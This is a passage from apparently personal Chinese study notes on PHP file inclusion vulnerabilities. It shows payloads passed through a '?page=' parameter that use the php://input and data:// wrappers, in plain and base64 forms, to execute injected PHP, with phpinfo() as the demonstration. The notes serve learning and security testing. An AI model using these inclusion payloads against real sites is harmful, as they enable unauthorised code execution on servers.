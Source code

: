 解码后就可以得到源代码：

![image-20220118100014517](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/04%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E8%A1%A5%E5%85%85.assets/image-20220118100014517.png)

即：

![image-20220118100053276](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/04%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E8%A1%A5%E5%85%85.assets/image-20220118100053276.png)



4. **利用php输入输出流伪协议**,php://input,通过post提交php的数据让它执行

```
?page=
php://input

POST
<?php phpinfo() ?>
```



![image-20220118100228284](04 文件包含漏洞补充.assets/image-20220118100228284.png)



5. **利用php输入输出流伪协议**,data,通过post提交php的数据让它执行

```
?page=
data://text/plain,<?php phpinfo() ?>

?page=
data://text/plain;base64,[<?php phpinfo() ?>的base64加密PD9waHAgcGhwaW5mbygpPz4=]
```





